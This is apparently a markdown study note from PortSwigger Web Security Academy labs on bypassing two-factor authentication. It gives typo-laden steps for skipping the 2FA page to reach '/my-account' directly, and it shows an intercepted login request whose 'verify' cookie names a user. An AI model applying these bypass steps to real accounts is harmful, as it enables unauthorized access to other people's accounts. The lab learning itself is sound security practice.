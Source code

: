 ## Direct bypass
Fuck the 2FA, just try to access the next endpoint directly (you need to know the path of the next endpoint).


## Ex 1
 
 1. Loging Account use username and password 
 2. Please enter your 4-digit security code 
 
  3. Check The Email and use the code and loging
  4. check the url parameter
  
         https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
         /my-account is end-point
         
 5. loging Vicatm Account and send the 4 digit code 

 6. This is Url in Vicatam account
 
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/login2
        
 7. And add the end-point parameter
 
        /my-account
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
 
 ## Finally Hack The Vicatam Account
 
 ## EX 2 2FA broken logic
 1.loging Account and intercept the request
 
    GET /login2 HTTP/1.1
   Host: acca1fb51e222ae1c096b0ee00130073.web-security-academy.net
   Cookie: verify=wiener; session=BbzscnaCtyy4b69XW8P9Q0JRlqLq8iMU
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Sec-Fetch-Site: same-origin
   Sec-Fetch-Mode: navigate
   Sec-Fetch-User: ?1
   Sec-Fetch-Dest: document
   Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
   Sec-Ch-Ua-Mobile: ?0
   Sec-Ch-Ua-Platform: "Linux"
   Referer: https://acca1fb51e222ae1c096b0ee00130073.web-security-academy.net/login
   Accept-Encoding: gzip, deflate
   Accept-Language: en-US,en;q=0.9
   Connection: close
 
